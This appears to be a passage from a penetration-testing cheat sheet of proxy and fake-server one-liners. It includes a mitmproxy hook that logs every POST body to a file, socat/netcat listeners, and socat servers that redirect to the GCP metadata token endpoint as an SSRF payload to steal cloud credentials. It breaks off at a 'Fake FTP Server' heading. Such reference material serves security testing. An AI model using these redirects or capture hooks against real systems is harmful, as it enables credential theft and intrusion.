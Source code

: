 def request(flow):
    if flow.request.method == "POST":
        ctx.log.info(flow.request.get_text())
        f = open("captured.log", "a")
        f.write(flow.request.get_text() + '\n')
        f.close()
```

<br># Port Forwarding (socat)
<br>```sudo socat -v TCP-LISTEN:80,fork TCP:127.0.0.1:81```

<br># Reverse Proxy (socat)
<br>```socat -v -d -d TCP-LISTEN:8101,reuseaddr,fork TCP:127.0.0.1:8100```
<br>```sudo socat -v -d -d openssl-listen:8443,cert=cert.pem,reuseaddr,fork,verify=0 SSL:127.0.0.1:443,verify=0```

<br># SOCKS Proxy
<br>```ssh -N -D 0.0.0.0:1337 localhost```

https://github.com/projectdiscovery/proxify/
<br># Swiss Army Knife Proxy for rapid deployments. Supports multiple operations such as request/response dump, filtering and manipulation via DSL language, upstream HTTP/Socks5 proxy.
<br>```proxify -socks5-proxy socks5://127.0.0.1:9050```

<br># Fake HTTP Server
<br>```while true ; do echo -e "HTTP/1.1 200 OK\r\nConnection: close\r\nContent-Length: 2\r\n\r\nOK" | sudo nc -vlp 80; done```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Connection: close";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d TCP-LISTEN:80,crlf,reuseaddr,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```FILE=image.jpg;socat -v -d -d TCP-LISTEN:80,fork "SYSTEM:/bin/echo 'HTTP/1.1 200 OK';/bin/echo 'Content-Length: '`wc -c<$FILE`;/bin/echo 'Content-Type: image/png';/bin/echo;dd 2>/dev/null<$FILE"``` # Present an image
<br>```python2 -m SimpleHTTPServer 8080```
<br>```python3 -m http.server 8080```
<br>```php -S 0.0.0.0:80```
<br>```ruby -run -e httpd . -p 80```
<br>```busybox httpd -f -p 80```
    
<br># Fake HTTPS Server
<br>```openssl req -new -x509 -keyout test.key -out test.crt -nodes```
<br>```cat test.key test.crt > test.pem```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=test.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 200 OK";/bin/echo "Connection: close";/bin/echo "Content-Length: 2";/bin/echo;/bin/echo "OK"'```
<br>```socat -v -d -d openssl-listen:443,crlf,reuseaddr,cert=web.pem,verify=0,fork 'SYSTEM:/bin/echo "HTTP/1.1 302 Found";/bin/echo "Connection: close";/bin/echo "Content-Length: 0";/bin/echo "Location: http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token";/bin/echo;/bin/echo'```
<br>```stunnel stunnel.conf``` # Check https://www.stunnel.org/

<br># Python 3 Simple HTTPS Server
```
    import http.server, ssl
    server_address = ('0.0.0.0', 443)
    httpd = http.server.HTTPServer(server_address, http.server.SimpleHTTPRequestHandler)
    httpd.socket = ssl.wrap_socket(httpd.socket, server_side=True, certfile='/path/cert.pem', ssl_version=ssl.PROTOCOL_TLS)
    httpd.serve_forever()
```

<br># Fake FTP Server
```